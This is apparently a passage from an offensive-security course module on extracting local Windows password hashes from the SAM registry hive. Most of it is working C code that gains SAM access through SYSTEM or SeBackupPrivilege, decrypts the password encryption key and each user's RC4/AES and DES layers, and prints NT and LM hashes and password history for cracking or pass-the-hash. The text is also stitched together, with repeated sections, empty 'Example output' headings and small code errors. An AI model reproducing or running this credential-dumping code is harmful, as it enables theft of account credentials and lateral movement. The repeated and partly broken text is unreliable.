ATTRIBUTE_TABLE_ENTRY LMHistory;
UCHAR Data[ANYSIZE_ARRAY];
} SAM_USER_VARIABLE_DATA, * PSAM_USER_VARIABLE_DATA;
NTLMHash, LMHash, NTLMHistory and LMHistory.The DumpPasswordHashes function encapsulates the logic described above. It will use PrintUserFixedData and PrintUserVariableData to print the fixed respectively variable attributes of each user. The DumpPasswordHashes function has the following parameters:
PasswordEncryptionKey - A pointer to the PEK. Needed when decrypting password hashes.
OpenKeyEx - A function pointer to NtOpenKeyEx. If it is not null, we must use it instead of NtOpenKey.
UNICODE_STRING VariableAttributesValueName
= RTL_CONSTANT_STRING(L"V");
VOID DumpPasswordHashes(_In_ PUCHAR PasswordEncryptionKey, _In_
decltype(NtOpenKeyEx)* OpenKeyEx)
{
//
// Open a handle to the "Users" key
//
HANDLE UsersKey;
UNICODE_STRING KeyName =
RTL_CONSTANT_STRING(L"\\Registry\\Machine\\SAM\\SAM\\Domains\\Account\
\Users");
OBJECT_ATTRIBUTES KeyAttributes;
InitializeObjectAttributes(&KeyAttributes, &KeyName,
OBJ_CASE_INSENSITIVE, 0, 0)
NTSTATUS Status;
if (OpenKeyEx == 0)
{
Status = NtOpenKey(&UsersKey, KEY_ENUMERATE_SUB_KEYS,
&KeyAttributes);
}
else
{
Status = OpenKeyEx(&UsersKey, KEY_ENUMERATE_SUB_KEYS,
&KeyAttributes, REG_OPTION_BACKUP_RESTORE);
}
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not open a handle the Users key: 0x%08lX", Status);
return;
}
//
// Query the number of subkeys. Subtract one from this value (since we
are not counting "Names") and you have the number of users in the local
domain
//
KEY_FULL_INFORMATION KeyInformation;
ULONG ResultLength;
Status = NtQueryKey(UsersKey, KeyFullInformation, &KeyInformation,
sizeof(KEY_FULL_INFORMATION), &ResultLength);
//
// NtQueryKey may return STATUS_BUFFER_OVERFLOW because it cannot fit
the entire key information in the buffer we specified.
// This is fine because we the partial data we receive contains the
number of subkeys, which is what we are looking for
//
if (!NT_SUCCESS(Status))
{
wprintf(L"Failed querying the number of \"Users\" subkeys: 0x%08lX",
Status);
NtClose(UsersKey);
return;
}
UCHAR Buffer[USER_SUBKEY_INFORMATION_SIZE];
PKEY_BASIC_INFORMATION SubkeyInformation =
(PKEY_BASIC_INFORMATION)(Buffer);
KeyAttributes.RootDirectory = UsersKey;
for (ULONG Index = 0; Index < KeyInformation.SubKeys - 1; Index++)
{
//
// NtEnumerateKey queries information about a subkey by its index
//
Status = NtEnumerateKey(UsersKey, Index, KeyBasicInformation,
SubkeyInformation, USER_SUBKEY_INFORMATION_SIZE, &ResultLength);
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not query the subkey with index %lu: 0x%08lX", Index,
Status);
break;
}
KeyAttributes.ObjectName->Length =
KeyAttributes.ObjectName->MaximumLength =
SubkeyInformation->NameLength;
KeyAttributes.ObjectName->Buffer = SubkeyInformation->Name;
//
// Open a handle to the subkey
//
HANDLE SubkeyHandle;
if (OpenKeyEx == 0)
{
Status = NtOpenKey(&SubkeyHandle, KEY_READ, &KeyAttributes);
}
else
{
Status = OpenKeyEx(&SubkeyHandle, KEY_READ, &KeyAttributes,
REG_OPTION_BACKUP_RESTORE);
}
if (!NT_SUCCESS(Status))
{
wprintf(L"Could not open a handle to the %wZ key: 0x%08lX",
KeyAttributes.ObjectName);
break;
}
//
// Query the fixed and variable attributes of the user
//
UCHAR FixedDataBuffer[100];
PSAM_USER_FIXED_DATA UserFixedData =
(PSAM_USER_FIXED_DATA)(((PKEY_VALUE_PARTIAL_INFORMATION)
(FixedDataBuffer))->Data);
Status = NtQueryValueKey(SubkeyHandle, &FixedAttributesValueName,
KeyValuePartialInformation, FixedDataBuffer, 100, &ResultLength);
if (NT_SUCCESS(Status))
{
PKEY_VALUE_PARTIAL_INFORMATION ValueInformation;
Status = QueryUserVariableAttributes(SubkeyHandle,
&ValueInformation);
if (NT_SUCCESS(Status))
{
PSAM_USER_VARIABLE_DATA UserVariableData =
(PSAM_USER_VARIABLE_DATA)(ValueInformation->Data);
//
// Print the username and RID
//
UNICODE_STRING UserName;
UserName.Length = UserName.MaximumLength =
UserVariableData->UserName.Length;
UserName.Buffer = (PWCHAR)(UserVariableData->Data +
UserVariableData->UserName.Offset);
PrintUsernameAndRid(&UserName, KeyAttributes.ObjectName);
//
// As explained in the overview of the NT hash obfuscation
mechanism,
// the user's RID is the key for the DES encryption layer
//
ULONG UserRid = wcstoul(KeyAttributes.ObjectName->Buffer, 0, 16);
//
// Print the fixed attributes
//
PrintUserFixedData(UserFixedData);
//
// Print the variable attributes, including password hashes
//
PrintUserVariableData(UserVariableData, PasswordEncryptionKey,
UserRid);
HeapFree(GetProcessHeap(), 0, ValueInformation);
}
}
NtClose(SubkeyHandle);
}
NtClose(UsersKey);
}
//
// Small wrapper around NtQueryValueKey
//
NTSTATUS QueryUserVariableAttributes(_In_ HANDLE KeyHandle, _Out_
PKEY_VALUE_PARTIAL_INFORMATION* ValueInformation)
{
ULONG ResultLength;
NTSTATUS Status = NtQueryValueKey(KeyHandle,
&VariableAttributesValueName, KeyValuePartialInformation, 0, 0,
&ResultLength);
if (Status != STATUS_BUFFER_TOO_SMALL)
{
return Status;
}
PKEY_VALUE_PARTIAL_INFORMATION ValueInfo =
(PKEY_VALUE_PARTIAL_INFORMATION)(HeapAlloc(GetProcessHeap(),
HEAP_ZERO_MEMORY, ResultLength));
if (ValueInfo == 0)
{
return STATUS_INSUFFICIENT_RESOURCES;
}
Status = NtQueryValueKey(KeyHandle, &VariableAttributesValueName,
KeyValuePartialInformation, ValueInfo, ResultLength, &ResultLength);
if (!NT_SUCCESS(Status))
{
HeapFree(GetProcessHeap(), 0, ValueInfo);
return Status;
}
*ValueInformation = ValueInfo;
return Status;
}
As with the domain fixed attributes, we will print the user's fixed
attributes one at a time to better understand them. This is achieved by
the PrintUserFixedData function. The function has a single parameter:
UserFixedData - A pointer to a structure detailing the fixed attributes of a specific user.VOID PrintUserFixedData(_In_
PSAM_USER_FIXED_DATA UserFixedData)
{
wprintf(L"- Fixed attributes: \n");
wprintf(L" Version: %hu\n", UserFixedData->Version);
//
// The last time this user logged on
//
SYSTEMTIME Time;
FileTimeToSystemTime((PFILETIME)(&UserFixedData->LastLogon),
&Time);
wprintf(L" LastLogon: %lu/%lu/%lu %lu:%lu:%lu\n", Time.wDay,
Time.wMonth, Time.wYear, Time.wHour, Time.wMinute, Time.wSecond);
//
// The last time this user logged off
//
FileTimeToSystemTime((PFILETIME)(&UserFixedData->LastLogoff),
&Time);
wprintf(L" LastLogoff: %lu/%lu/%lu %lu:%lu:%lu\n", Time.wDay,
Time.wMonth, Time.wYear, Time.wHour, Time.wMinute, Time.wSecond);
//
// The last time a user changed their password
//
FileTimeToSystemTime((PFILETIME)(&UserFixedData-
>PasswordLastSet), &Time);
wprintf(L" PasswordLastSet: %lu/%lu/%lu %lu:%lu:%lu\n", Time.wDay,
Time.wMonth, Time.wYear, Time.wHour, Time.wMinute, Time.wSecond);
//
// Account expiry date. If this value is 0 or 0x7FFFFFFFFFFFFFFF, the
account has not been configured to expire
//
if (UserFixedData->AccountExpires.QuadPart == 0 ||
UserFixedData->AccountExpires.QuadPart == 0x7FFFFFFFFFFFFFFF)
{
wprintf(L" AccountExpires: Never\n");
}
else
{
FileTimeToSystemTime((PFILETIME)(&UserFixedData->AccountExpires),
&Time);
wprintf(L" AccountExpires: %lu/%lu/%lu %lu:%lu:%lu\n", Time.wDay,
Time.wMonth, Time.wYear, Time.wHour, Time.wMinute, Time.wSecond);
}
//
// The last time the user attempted to log on using an incorrect
password
//
FileTimeToSystemTime((PFILETIME)(&UserFixedData-
>LastBadPasswordTime), &Time);
wprintf(L" LastBadPasswordTime: %lu/%lu/%lu %lu:%lu:%lu\n", Time.wDay,
Time.wMonth, Time.wYear, Time.wHour, Time.wMinute, Time.wSecond);
//
// User's RID
//
wprintf(L" UserId: %lu\n", UserFixedData->UserId);
//
// RID of the group that this user is implicitly part of
//
wprintf(L" PrimaryGroupId: %lu\n", UserFixedData->PrimaryGroupId);
//
// Attribute that specify the password, lockout, disable/enable,
script, and home directory behavior for the user.
//
wprintf(L" UserAccountControl: %lu\n",
UserFixedData->UserAccountControl);
//
// Legacy localization info
//
wprintf(L" CountryCode: %hu\n", UserFixedData->CountryCode);
wprintf(L" CodePage: %hu\n", UserFixedData->CodePage);
//
// The number of times this user has attempted to log on with an
incorrect password.
// Reset to 0 when the user successfully logs on
//
wprintf(L" BadPasswordCount: %hu\n",
UserFixedData->BadPasswordCount);
//
// The amount of times this user has logged on
//
wprintf(L" LogonCount: %lu\n", UserFixedData->LogonCount);
//
// Is this account part of a privileged group?
//
wprintf(L" AdminCount: %lu\n", UserFixedData->AdminCount);
//
// Not defined in MS-ADTS
//
wprintf(L" OperatorCount: %lu\n\n", UserFixedData->OperatorCount);
}
Finally, we will use PrintUserVariableData to print the user variable attributes, including the password hashes and password history. Remember the PasswordHistoryLength member of the domain fixed attributes; if this value is non-zero, the SAM will store an array of the last PasswordHistoryLength password hashes in the variable attribute of user. Password related attributes are decrypted and printed using DecryptHash which will be explained shortly.
UserVariableData - A pointer to the SAM_USER_VARIABLE_DATA attribute table of a specific user.
PasswordEncryptionKey - A pointer to the PEK. Used by DecryptHash in the decryption process.
UserRid - The user's RID. Used by DecryptHash in the decryption process.
VOID PrintUserVariableData(_In_
PSAM_USER_VARIABLE_DATA UserVariableData, _In_ PUCHAR
PasswordEncryptionKey, _In_ ULONG UserRid)
{
wprintf(L"- Variable attributes: \n");
if (UserVariableData->FullName.Length != 0)
{
wprintf(L"FullName: %.*ws\n", UserVariableData->FullName.Length /
sizeof(WCHAR), UserVariableData->Data +
UserVariableData->FullName.Offset);
}
//
// Description of the user
//
if (UserVariableData->Comment.Length != 0)
{
wprintf(L" Comment: %.*ws\n", UserVariableData->Comment.Length /
sizeof(WCHAR), UserVariableData->Data +
UserVariableData->Comment.Offset);
}
if (UserVariableData->UserComment.Length != 0)
{
wprintf(L" UserComment: %.*ws\n",
UserVariableData->UserComment.Length / sizeof(WCHAR),
UserVariableData->Data + UserVariableData->UserComment.Offset);
}
//
// The home directory of the user
//
if (UserVariableData->Homedir.Length != 0)
{
wprintf(L" Homedir: %.*ws\n", UserVariableData->Homedir.Length /
sizeof(WCHAR), UserVariableData->Data +
UserVariableData->Homedir.Offset);
}
if (UserVariableData->HomedirConnect.Length != 0)
{
wprintf(L" HomedirConnect: %.*ws\n",
UserVariableData->HomedirConnect.Length / sizeof(WCHAR),
UserVariableData->Data + UserVariableData->HomedirConnect.Offset);
}
//
// Specifies a path to the user's profile
//
if (UserVariableData->ProfilePath.Length != 0)
{
wprintf(L" ProfilePath: %.*ws\n",
UserVariableData->ProfilePath.Length / sizeof(WCHAR),
UserVariableData->Data + UserVariableData->ProfilePath.Offset);
}
//
// Path for the user's logon script, if one exists
//
if (UserVariableData->ScriptPath.Length != 0)
{
wprintf(L" ScriptPath: %.*ws\n",
UserVariableData->ScriptPath.Length / sizeof(WCHAR),
UserVariableData->Data + UserVariableData->ScriptPath.Offset);
}
//
// NetBIOS or DNS names of the workstations from which a user is
permitted to log on
//
if (UserVariableData->Workstations.Length != 0)
{
wprintf(L" Workstations: %.*ws\n",
UserVariableData->Workstations.Length / sizeof(WCHAR),
UserVariableData->Data + UserVariableData->Workstations.Offset);
}
//
// Print the NT hash
//
if (UserVariableData->NTHash.Length != 0)
{
DecryptHash(NtHash, &UserVariableData->NTHash,
(PSAM_HASH)(UserVariableData->Data +
UserVariableData->NTHash.Offset), PasswordEncryptionKey, UserRid);
}
//
// Print the LM hash, if it exists
//
if (UserVariableData->LMHash.Length != 0)
{
DecryptHash(LmHash, &UserVariableData->LMHash,
(PSAM_HASH)(UserVariableData->Data +
UserVariableData->LMHash.Offset), PasswordEncryptionKey, UserRid);
}
//
// Print the NT and LM password history
//
if (UserVariableData->NTHistory.Length != 0)
{
DecryptHash(NtHistory, &UserVariableData->NTHistory,
(PSAM_HASH)(UserVariableData->Data +
UserVariableData->NTHistory.Offset), PasswordEncryptionKey, UserRid);
}
if (UserVariableData->LMHistory.Length != 0)
{
DecryptHash(LmHistory, &UserVariableData->LMHistory,
(PSAM_HASH)(UserVariableData->Data +
UserVariableData->LMHistory.Offset), PasswordEncryptionKey, UserRid);
}
}
DecryptHash is used to decrypt and print a hash. It takes in 5 parameters:
HashType - An enum value describing what kind of hash we want to decrypt: NT hash, LM hash, NT password history or LM password history.
HashTableEntry - Pointer to the attribute index table entry corresponding to the hash which is to be decrypted. For example, &UserVariableData->NTHash
Hash - Pointer to the hash data itself. This value is obtained by adding, for example, UserVariableData->NTHash.Offset to UserVariableData->Data
PasswordEncryptionKey - Pointer to the PEK, read and decrypted using GetPasswordEncryptionKey.
It is used to remove the first layer of encryption. Depending on the
version, this is either RC4 or AES. For AES, the PEK itself is the key,
while for RC4, the key is a concatenation of the PEK, the user's RID,
and a string.
UserRid - The user's RID, used for DES decryption.
CHAR LmPasswordString[] =
"LMPASSWORD";
CHAR NtPasswordString[] = "NTPASSWORD";
CHAR LmPasswordHistoryString[] = "LMPASSWORDHISTORY";
CHAR NtPasswordHistoryString[] = "NTPASSWORDHISTORY";
VOID DecryptHash(_In_ SAM_HASH_TYPE HashType, _In_
PATTRIBUTE_TABLE_ENTRY HashTableEntry, _In_ PSAM_HASH Hash, _In_ PUCHAR
PasswordEncryptionKey, _In_ ULONG UserRid)
{
//
// While we know the size of an NT and LM hashes is 16 bytes, there is
no way for us to know how long the password history will be.
// To account for this, we calculate the length of the data we want to
decrypt by
// substracting size of the SAM_HASH header from the total length of
the respective attribute (be it LMHash, NTHash etc.)
//
PUCHAR DataBuffer = Hash->Revision == 1 ?
(PUCHAR)(Hash->Rc4.Data) : (PUCHAR)(Hash->Aes.Data);
USHORT DataLength = Hash->Revision == 1 ? HashTableEntry->Length -
FIELD_OFFSET(SAM_HASH, Rc4.Data) : HashTableEntry->Length -
FIELD_OFFSET(SAM_HASH, Aes.Data);
if (DataLength == 0)
{
return;
}
switch (Hash->Revision)
{
case 1:
{
MD5_CTX Md5Context;
MD5Init(&Md5Context);
MD5Update(&Md5Context, PasswordEncryptionKey, PEK_SIZE);
MD5Update(&Md5Context, &UserRid, sizeof(ULONG));
//
// The string used in the MD5 hash depends on the type of hash
//
switch (HashType)
{
case LmHash:
{
MD5Update(&Md5Context, LmPasswordString,
sizeof(LmPasswordString));
break;
}
case NtHash:
{
MD5Update(&Md5Context, NtPasswordString,
sizeof(NtPasswordString));
break;
}
case LmHistory:
{
MD5Update(&Md5Context, LmPasswordHistoryString,
sizeof(LmPasswordHistoryString));
break;
}
case NtHistory:
{
MD5Update(&Md5Context, NtPasswordHistoryString,
sizeof(NtPasswordHistoryString));
break;
}
}
MD5Final(&Md5Context);
STRING Data;
Data.Length = Data.MaximumLength = DataLength;
Data.Buffer = (PCHAR)DataBuffer;
STRING Key;
Key.Length = Key.MaximumLength = MD5_DIGEST_LENGTH;
Key.Buffer = Md5Context.Digest;
NTSTATUS Status = SystemFunction033(&Data, &Key);
if (!NT_SUCCESS(Status))
{
return;
}
break;
}
case 2:
{
//
// Peel off the AES encryption layer using the PEK
//
BOOLEAN Result = Aes128Decrypt(PasswordEncryptionKey,
Hash->Aes.Iv, DataBuffer, DataLength);
if (Result == FALSE)
{
return;
}
break;
}
default:
{
wprintf(L"Invalid revision: %hu", Hash->Revision);
break;
}
}
//
// Remove the final encryption layer, DES, and print the hash
//
switch (HashType)
{
case LmHash:
case NtHash:
{
UCHAR Buffer[16];
NTSTATUS Status = SystemFunction027(DataBuffer, &UserRid,
Buffer);
if (NT_SUCCESS(Status))
{
wprintf(HashType == NtHash ? L" NT hash: " : L" LM hash: ");
for (UCHAR Index = 0; Index < 16; Index++)
{
wprintf(L"%02X ", Buffer[Index]);
}
wprintf(L"\n");
}
else
{
wprintf(L"Could not DES decrypt the %ws: 0x%08lX", HashType ==
NtHash ? L"NT hash" : L"LM hash", Status);
}
break;
}
case LmHistory:
case NtHistory:
{
//
// We will decrypt and print each hash in the password history, one
by one
//
UCHAR Buffer[16];
wprintf(HashType == NtHistory ? L" NT history: " : L" LM history: ");
for (USHORT Index = 0; Index < DataLength - 16; Index += 16)
{
NTSTATUS Status = SystemFunction027(DataBuffer + Index,
&UserRid, Buffer);
if (NT_SUCCESS(Status))
{
wprintf(L"\n ");
for (UCHAR Index = 0; Index < 16; Index++)
{
wprintf(L"%02X ", Buffer[Index]);
}
}
}
wprintf(L"\n");
break;
}
}
}
Example output of domain fixed data:
Example output for a user:

Before being allowed to interact with a Windows system, a user must prove their identity by authenticating. Authentication is the process of verifying the identity of a person or object. To accommodate different authentication scenarios, Windows supports multiple types of authentication, which vary in length and complexity.
Interactive authentication is used to grant access to both local and domain resources. It begins when a user supplies a set of credentials (e.g. password, smart card, certificate) and, if successful, ends with the creation of an access token.
An access token serves as the security context of a process or thread and contains information such as the identity and privileges of the user. When interacting with a securable object, the system uses the token during to determine whether the user has sufficient rights to perform the requested action. An object is considered securable if it has a security descriptor, which is a data structure containing security information about the object. This information includes a discretionary access control list (DACL), which defines who has access to the object and their access level.
For the purpose of authentication, Windows uses a domain. A domain associates a set of users and groups with a policy, which governs the actions they can perform and the resources they can access. It also provides management infrastructure for these entities, including logon infrastructure. Domain architecture is complex enough to warrant an entire course, so we will start by familiarizing ourselves with the authentication process of the simplest form of a domain: the local domain.
Although domains are often associated with enterprise networks, every computer, whether stand-alone or part of a network, belongs to a domain known as the local domain. This domain usually goes unnoticed because it shares the same name as the computer itself.
In this scenario, the local security policy is applied to local users and groups. Maintained by the Local Security Authority (LSA), it includes information such as:
Account rights - The privileges assigned to a user's token when they log in.
Logon rights - What types of authentication a user or group is allowed to perform. For example, they can be used to deny a user from authenticating over the network.
Security auditing policy - Governs which events will be recorded in the event log and the conditions under which they will be recorded, such as success or failure.
The LSA is also responsible for local domain management. To this end, it maintains two databases stored as registry keys: the SAM database and the LSA policy database:
The Security Account Manager (SAM) database contains login information about local groups and users, such as usernames, password hashes, security identifiers (SIDs), and group memberships. When authenticating to the local domain, the LSA calculates a hash of your password and matches it with the one stored in the SAM.
On the other hand, the LSA policy database contains the local security policy described above. We will deep dive into the LSA policy in a later module.
In certain scenarios, an application or service may need to access network resources, such as a file share. This type of authentication uses previously established credentials and is typically transparent unless alternative credentials must be specified. Windows supports multiple network authentication protocols, which we will explore later.
The SAM database is located in the Registry\Machine\SAM and can only be accessed by NT AUTHORITY\SYSTEM. Alternatively, we can bypass access checks via the SeBackupPrivilege privilege. The CanAccessSam function determines if we can access the SAM by first querying the Security Identifier (SID) of the user associated with our process. Then, it constructs the SID of the NT AUTHORITY\SYSTEM account and compares the two. If they are equal, we can simply proceed. Otherwise, we attempt to acquire the SeBackupPrivilege privilege. If we fail, we cannot access the SAM.
First, we will create a helper function that will be used by the CanAccessSam function that checks if the provided SID is that of NT AUTHORITY\SYSTEM. The IsSidLocalSystem function has one parameter Sid which is the user's ID. It then uses RtlAllocateAndInitializeSid to construct NT AUTHORITY\SYSTEM's SID, being S-1-5-18. Finally, a comparison is made using RtlEqualSid which, if true, means that the given SID matches NT AUTHORITY\SYSTEM.
The IsSidLocalSystem function has one parameter, Sid, which is a pointer to the SID that is to be compared to S-1-5-18.
The CanAcccessSam function has one parameter, NtOpenKeyExPointer, which is a function pointer to NtOpenKeyEx. This informs us under what circumstances we are accessing the SAM. If the parameter is not set, we are NT AUTHORITY\SYSTEM and can simply use NtOpenKey to access SAM keys. In the other case, we must use NtOpenKeyEx with the REG_OPTION_BACKUP_RESTORE flag. Since NtOpenKeyEx is only available on Windows 7 and above, we will dynamically resolve it and fail if it is not present.
Windows stores the MD4 hash of each local user's password. This hash is commonly known as the NT hash. For compatibility reasons, Windows used to store an additional LAN Manager (LM) hash. This feature has been disabled by default since Windows Vista.
Unfortunately, dumping NT hashes is not trivial as they are subject to multiple layers of obfuscation: First, the NT hash is encrypted with the DES algorithm where the key is the relative identifier (RID) of the corresponding user. The RID is a unique number assigned to each security principle (such as a user or group) within a domain; in this scenario, the local domain. Next, the DES-encrypted hash is encrypted using the password encryption key (PEK). The PEK, in turn, is encrypted using the LSA system key.
Access to these hashes is useful because the weak hashing algorithm makes them easily crackable. Nonetheless, you can use pass-the-hash to perform network authentication without knowing the plaintext password. This technique will be explored in a later module.
As mentioned earlier, the first step in retrieving NT hashes is
acquiring the LSA system key. This 16-byte key is divided among the ClassName
attribute of four registry keys, with each key containing four bytes of
the LSA system key. All of these keys are subkeys of the LSA
configuration key, which is in \Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\. The specific subkeys are:
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\JD
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\Skew1
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\GBG
\Registry\Machine\SYSTEM\CurrentControlSet\Control\Lsa\Data
In addition, a series of permutations must be performed on the key's
bytes to achieve its true value. Note that the LSA system key differs
from system to system.
This process is encapsulated in the GetLsaSystemKey function, which opens a handle to each one of the keys described above, queries their class name before using wcstoul to convert it into a 4 byte integer. If it succeeds in constructing the 16-byte key, it will set each byte of SystemKey buffer according to the permutations, giving us the LSA system key.
The GetLsaSystemKey function has one parameter, SystemKey, which is a pointer to a 16-byte buffer that will receive the LSA system key.
Equipped with the LSA system key, we can decrypt the password encryption key. The PEK is stored in the F value of the \Registry\Machine\SAM\SAM\Domains\Account registry key which contains the domains' Fixed
attributes. These attributes are "fixed" because they are present on
each domain, regardless of configuration. Some attributes have different
meanings if the computer is a domain controller. For now, however, we
will focus on the attributes relevant to the local domain.
The GetPasswordEncryptionKey function opens a handle on the Account key, queries the F value and uses PrintDomainFixedData the print domain fixed attributes to the console. Finally, it will use the LSA system key to decrypt the PEK using the DecryptPasswordEncryptionKey function. These two functions will be explained later in the module.
The GetPasswordEncryptionKey function has three parameters:
LsaSystemKey - The LSA system key, obtained by calling GetLsaSystemKey.
PasswordEncryptionKey - A pointer to a 16-byte buffer that will receive the PEK.
OpenKeyEx - The function pointer to NtOpenKeyEx. If the pointer is null, then we know that we are NT AUTHORITY\SYSTEM and can use NtOpenKey. Otherwise, we must use the received function pointer.
To further our understanding of the data that the SAM stores for each domain, we print it out using the PrintDomainFixedData
function. The aforementioned function receives a pointer to the
structure describing the domain's fixed attributes and prints them to
the console in a readable format. The function has one parameter, DomainFixedData, which is a pointer to a SAM_DOMAIN_FIXED_DATA, containing the fixed attributes of a domain
The next step is to decrypt the PEK. On older versions of Windows,
the PEK is encrypted using RC4 with the key being an MD5 hash derived
from a concatenation of an initialization vector, along with two fixed
strings and the LSA system key. In Windows 10 version 1607, the cipher
is changed to AES-128-CBC with the LSA system key taking the place of
the AES key. Keeping this in mind, let us first create a helper function
that decrypts data using AES-128. The Aes128Decrypt function uses the WinCrypt API to AES-128 decrypt the specified ciphertext in-place. It has the following parameters:
Key - A pointer to a 16-byte key.
Iv - A pointer to a 16-byte IV.
Ciphertext - A pointer to the ciphertext which is to be
decrypted. Since decryption is performed in-place, the size of this
buffer must be aligned to 16 bytes.
CiphertextLength - The size of the Ciphertext buffer, in bytes.
The DecryptPasswordEncryptionKey function reads the PEK version from the respective domain attribute, specifically DomainFixedData->PasswordEncryptionKey.
Depending on the version, a different decryption routine is performed,
as explained above. If decryption is successful, the PEK is copied into
the PasswordEncryptionKey buffer.
LsaSystemKey - The LSA system key, obtained by calling GetLsaSystemKey.
DomainFixedData - A pointer to a SAM_DOMAIN_FIXED_DATA containing the fixed attributes of a domain, including the PEK.
PasswordEncryptionKey - A pointer to a 16-byte buffer that will receive the PEK.
Now that we have the PEK, we can decrypt all hashes present on the
system. For each user in the local domain, there is a subkey of \Registry\Machine\SAM\SAM\Domains\Account\Users named after the user's RID. For example, the Administrator account, which always has a RID of 500, corresponds to the \Registry\Machine\SAM\SAM\Domains\Account\Users\000001F4 key.
Alongside the per-user subkeys, exists the Names subkey.
This key contains an entry for each user in the local domain, with each
subkey named after the corresponding user. The default value for each
of these them is set to the user's RID. Following the scenario above, \Registry\Machine\SAM\SAM\Domains\Account\Users\Names\Administrator has a default value of 0x1F4.
Equipped with this information, we can form a plan to dump all the password hashes on the system:
We will iterate through all subkeys of \Registry\Machine\SAM\SAM\Domains\Account\Users and query the F value. Much like the domain fixed attributes, the user fixed attributes contain information stored for each user in the local domain.
Next, we will query the V value, which contains the Variable
user attributes. They are "variable" because, unlike the fixed
attributes, not all of them are present for each local user. The
variable attributes are prefixed by an attribute index table, describing the length of each attribute and the offset from the end of the table (the Data
member of the structure) to the data itself. If an attribute is not
present, its corresponding entry in the attribute table will have Offset and Length set to 0. For example, we can determine if the LM hash is present by checking if LMHash->Length is not 0.
NTLMHash, LMHash, NTLMHistory and LMHistory.The DumpPasswordHashes function encapsulates the logic described above. It will use PrintUserFixedData and PrintUserVariableData to print the fixed respectively variable attributes of each user. The DumpPasswordHashes function has the following parameters:
PasswordEncryptionKey - A pointer to the PEK. Needed when decrypting password hashes.
OpenKeyEx - A function pointer to NtOpenKeyEx. If it is not null, we must use it instead of NtOpenKey.
As with the domain fixed attributes, we will print the user's fixed
attributes one at a time to better understand them. This is achieved by
the PrintUserFixedData function. The function has a single parameter:
UserFixedData - A pointer to a structure detailing the fixed attributes of a specific user.Finally, we will use PrintUserVariableData to print the user variable attributes, including the password hashes and password history. Remember the PasswordHistoryLength member of the domain fixed attributes; if this value is non-zero, the SAM will store an array of the last PasswordHistoryLength password hashes in the variable attribute of user. Password related attributes are decrypted and printed using DecryptHash which will be explained shortly.
UserVariableData - A pointer to the SAM_USER_VARIABLE_DATA attribute table of a specific user.
PasswordEncryptionKey - A pointer to the PEK. Used by DecryptHash in the decryption process.
UserRid - The user's RID. Used by DecryptHash in the decryption process.
DecryptHash is used to decrypt and print a hash. It takes in 5 parameters:
HashType - An enum value describing what kind of hash we want to decrypt: NT hash, LM hash, NT password history or LM password history.
HashTableEntry - Pointer to the attribute index table entry corresponding to the hash which is to be decrypted. For example, &UserVariableData->NTHash
Hash - Pointer to the hash data itself. This value is obtained by adding, for example, UserVariableData->NTHash.Offset to UserVariableData->Data
PasswordEncryptionKey - Pointer to the PEK, read and decrypted using GetPasswordEncryptionKey.
It is used to remove the first layer of encryption. Depending on the
version, this is either RC4 or AES. For AES, the PEK itself is the key,
while for RC4, the key is a concatenation of the PEK, the user's RID,
and a string.
UserRid - The user's RID, used for DES decryption.
Example output of domain fixed data:
Example output for a user: